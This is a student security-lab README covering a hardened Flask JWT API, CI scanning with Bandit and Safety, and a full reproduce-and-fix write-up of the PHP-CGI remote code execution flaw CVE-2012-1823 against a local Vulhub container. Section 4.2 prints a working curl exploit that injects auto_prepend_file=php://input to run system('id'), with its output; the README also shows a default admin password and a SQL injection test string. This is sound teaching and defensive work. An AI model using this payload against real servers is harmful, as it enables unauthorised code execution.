






# Secure REST API (Lab 1)

A deliberately-hardened Flask REST API built for the HDU Information Security lab.
It demonstrates protections against the OWASP Top 10 (SQL injection, XSS, broken
authentication), automated security scanning in GitHub Actions (SAST + SCA), and a
full reproduce / root-cause / fix cycle for a real CVE grabbed from **Vulhub**.

**Student:** hongzhixuan · **HDU ID:** 23320328

---

## 1. Project & API

A minimal Flask + SQLite backend with JWT authentication. Only two binary decision
points matter: `POST /auth/login` exchanges valid credentials for a signed JWT, and
the GET endpoints accept only requests carrying that token.

### Endpoints

| Method | Path            | Auth     | Description                                          |
|--------|-----------------|----------|------------------------------------------------------|
| POST   | `/auth/login`   | no       | Body `{username, password}` → issues a JWT on success|
| GET    | `/api/data`     | **JWT**  | Returns data + a list of users                       |
| GET    | `/api/profile`  | **JWT**  | Returns the caller's (3rd, self-designed) endpoint   |

### Running locally

```bash
python -m venv .venv
.venv/bin/pip install -r requirements.txt       # (or .venv\Scripts\pip.exe on Windows)
.venv/bin/python app.py                          # serves on http://127.0.0.1:5000
```

A default `admin` user (password `pass1234`) is seeded on first run. **In a real
deployment** the password, the JWT secret and `FLASK_DEBUG` must all come from
secrets/environment variables and a proper WSGI server should be used.

### Example API calls

```bash
# 1) no token -> rejected (401)
curl http://127.0.0.1:5000/api/data

# 2) login -> get a token
TOKEN=$(curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"pass1234"}' | python -c "import sys,json;print(json.load(sys.stdin)['access_token'])")

# 3) with token -> 200
curl http://127.0.0.1:5000/api/data -H "Authorization: Bearer $TOKEN"
```


*Figure 1 - `curl` against the local API: no token -> 401, login -> JWT, valid token -> 200.*

Run the smoke tests with:

```bash
python test_app.py    # 6 unit tests, no live server needed
```

---

## 2. Implemented security measures

### 2.1 SQL injection (SQLi) — parameterized queries / ORM
All database access goes through the **SQLAlchemy ORM** using `filter_by`.
Queries are built by binding values as parameters, never by string concatenation,
so attacker input can never become part of the SQL syntax. See `app.py` →
`User.query.filter_by(username=username)`. The unit test
`test_sql_injection_username_is_ineffective` proves that `admin' OR '1'='1`
is treated as a literal username and fails to log in.

### 2.2 Cross-Site Scripting (XSS) — output escaping
Every value that flows back to a client is passed through `html.escape()`
(e.g. `html.escape(f"Hello user {current_user}")` in `/api/data`). This neutralizes
any script tags or event handlers the user might try to inject.

### 2.3 Broken authentication — JWT + slow password hashing
- Passwords are stored only as **bcrypt** hashes (salt + adaptive work factor,
  deliberately slow to resist offline brute force) — never in plaintext.
- On successful login the server issues a **JWT** signed with HMAC-SHA256
  (`create_access_token`).
- A JWT-protected route decorator (`@jwt_required()`) rejects requests without a
  valid token with `401`, and tampered/altered tokens with `422`.

### 2.4 Configuration hardening
- `JWT_SECRET_KEY` is read from an environment variable, never committed. The
  dev fallback is ≥ 32 bytes to satisfy RFC 7518's minimum HMAC key length
  (avoids `InsecureKeyLengthWarning`).
- `FLASK_DEBUG` is added to the dev-only code path; the server runs with the
  interactive debugger **off** by default (defense-in-depth; debug mode leaking
  internals is itself a common code-execution vector).
- The login endpoint validates `Content-Type`/JSON input and returns `400` for
  missing or malformed fields instead of crashing.

---

## 3. CI/CD with security scanners (SAST + SCA)

`.github/workflows/ci.yml` runs on every `push` and `pull_request`:

1. **SAST — Bandit**: statically analyses `app.py` for known bad patterns.
2. **SCA — Safety**: audits `requirements.txt` dependencies against known CVEs.
3. **Functional — `test_app.py`**: 6 assertions covering auth flow + injection
   defense.

Both scanner JSON reports (`bandit-report.json`, `safety-report.json`) are attached as
Actions artifacts. The job currently reports **0 issues** from Bandit and **0 reported
vulnerabilities** from Safety.

**Latest successful pipeline run:** <https://github.com/cizhouowo/information-Security/actions/workflows/ci.yml>


*Figure 2 - `security_scan` (Bandit + Safety) and `api_test` both pass on the latest push.*


*Figure 3 - Bandit (SAST) reports no issues; the JSON report is uploaded as an Actions artifact.*

---

## 4. Selected vulnerability — PHP-CGI remote code execution

**Chosen CVE:** *CVE-2012-1823* — a Remote Code Execution (RCE) in the PHP CGI SAPI,
reproduced from the Vulhub environment `vulhub/php/CVE-2012-1823` (affected PHP
`< 5.3.12` / `< 5.4.2`). This is a *complete* reproduce → root-cause → fix → verify
cycle on a real, officially-numbered vulnerability — exactly the OWASP theme this lab
is about, cross-cutting with the "broken input validation / injection" mitigations in
Section 2.

### 4.1 Overview

PHP-CGI is a *Server Application Programming Interface* (SAPI) that lets a web server
(here Apache, via its `mod_actions`) hand incoming PHP requests to the standalone
`php-cgi` binary. The flaw: when the request's query string does **not** contain an
URL-encoded `=`, the PHP CGI **parameter parser** (per RFC 3875) misinterprets that
query string as **command-line arguments to the `php-cgi` process**. An attacker can
deliver options such as `-d allow_url_include=1 -d auto_prepend_file=php://input`,
and since `auto_prepend_file` is executed before the target script, this becomes
trivial **arbitrary code execution** in the `www-data` context.

A later variant, **CVE-2012-2311**, showed that PHP's first fix (rejecting a query
string that *starts with `-`*) was incomplete: when PHP-CGI is wrapped in a shell
script, a leading whitespace character bypasses the check — the handler-level fix in
Section 4.4 neutralises this bypass too.

### 4.2 Reproduction steps

Environment: the Vulhub image `vulhub/php:5.4.1-cgi` (exposed on port 18080).

```bash
# (0) container up
docker compose up -d

# (1) prove the parser flaw: -s prints the source code of index.php
curl 'http://127.0.0.1:18080/index.php?-s'

# (2) RCE: inject auto_prepend_file=php://input, then send PHP in the body
curl -s 'http://127.0.0.1:18080/index.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp%3a//input' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data '<?php echo "RCE_OK"; system("id"); ?>'
```

Result — the server executed the injected PHP and returned our command's output,
confirming code execution as `www-data`:

```
RCE_OKuid=33(www-data) gid=33(www-data) groups=33(www-data)
```


*Figure 4 - The Vulhub `php:5.4.1-cgi` container running on port 18080.*

(The payload also ran `uname -a` → the container kernel banner, and
`cat /etc/hostname` → the container ID, all executing as `www-data`.)


*Figure 5 - Injected PHP executes: `RCE_OK` and the `id` output as `www-data` (uid=33).*

### 4.3 Root-cause analysis

The vulnerability lives at the boundary between Apache's **`Action` handler** and the
**PHP CGI parameter parser**:

- Apache's `php.conf` maps every `.php` request to the external CGI program:
  ```apache
  AddHandler application/x-httpd-php5 php
  Action application/x-httpd-php5 /local-bin/php-cgi
  ```
- When the Request-URI query string contains no URL-encoded `=`, **RFC 3875** tells the
  CGI implementation to feed that string to the program as its *argv*. PHP's
  implementation obeyed this for parameters that looked like command-line switches.
- So a request `GET /index.php?-d+allow_url_include%3d1+-d+...` is converted, before
  `index.php` ever runs, into a php-cgi invocation equivalent to
  `php-cgi -d allow_url_include=1 -d auto_prepend_file=php://input`.
- `allow_url_include=1` permits reading `php://input` (the raw POST body we control);
  `auto_prepend_file=php://input` force-includes the attacker's body **before**
  `index.php`. Supplying `<?php system("id"); ?>` as the body = code execution.

This is a classic **unvalidated external input reaches an interpreter** bug and maps
directly to OWASP **A03:2021 – Injection**.

### 4.4 The fix

Upstream fixed this by patching the PHP CGI argument parser (skip the leading
`-`/whitespace check correctly, versions 5.4.3 / 5.3.13). In *this* lab the identical
defence is applied at the **web-server layer** so the hardened image needs no
rebuild — a layer that also neutralises the CVE-2012-2311 whitespace bypass.

The fixed environment ([`cve-fix/docker-compose.patchfix.yml`](cve-fix/docker-compose.patchfix.yml))
overrides Apache's `php.conf` with an added guard that blocks any request whose query
string, after optional leading whitespace, begins with a `-` — before it can reach the
CGI process:

```apache
<If "%{QUERY_STRING} =~ /^\s*-/">
  Require all denied
</If>
```

Why this works: if the query string no longer reaches php-cgi as a leading `-`
argument, php-cgi never sees a `-d auto_prepend_file=...` switch, so no injection
point exists. The regex `^\s*-` deliberately allows the leading-space form that
triggers **CVE-2012-2311**, closing the known bypass as well.

### 4.5 Proof the vulnerability is gone

Same two requests, run against the patched environment:

```bash
# (a) the corruption probe that previously dumped index.php source
curl 'http://127.0.0.1:18080/index.php?-s'          -> HTTP 403 Forbidden

# (b) the exact RCE payload that previously returned www-data
curl -s 'http://127.0.0.1:18080/index.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp%3a//input' \
  --data '<?php echo "RCE_OK"; system("id"); ?>'    -> HTTP 403 Forbidden, no output
```

Both are now rejected with `403 Forbidden`; no `RCE_OK` marker appears and `id` never
executes. As a regression check, a benign request without the dangerous `-` prefix —
`GET /?name=Hoy` — still returns `HTTP 200` with `Hello, <strong>Hoy</strong>`, proving
the filter rejects only malformed CGI-style query strings and does not break normal use.

| check                            | vulnerable build | patched build |
|----------------------------------|:----------------:|:-------------:|
| `GET /index.php?-s`              | source leaked    | **403**        |
| RCE payload (`system("id")`)     | `uid=33(www-data)`| **403**, no exec |
| benign `GET /?name=Hoy`          | 200              | **200**        |


*Figure 6 - Patched build: both attack requests return 403 while the benign request still returns 200.*

Files for this CVE live under [`cve-fix/`](cve-fix/):
`docker-compose.vulnerable.yml` (the unmodified Vulhub environment used for
reproduction), `docker-compose.patchfix.yml` + `php-fixed.conf` (the patched build),
plus this README's reproduction log.

---

## 5. License / compliance

Educational use only — never point scanners/exploitation at systems you do not own.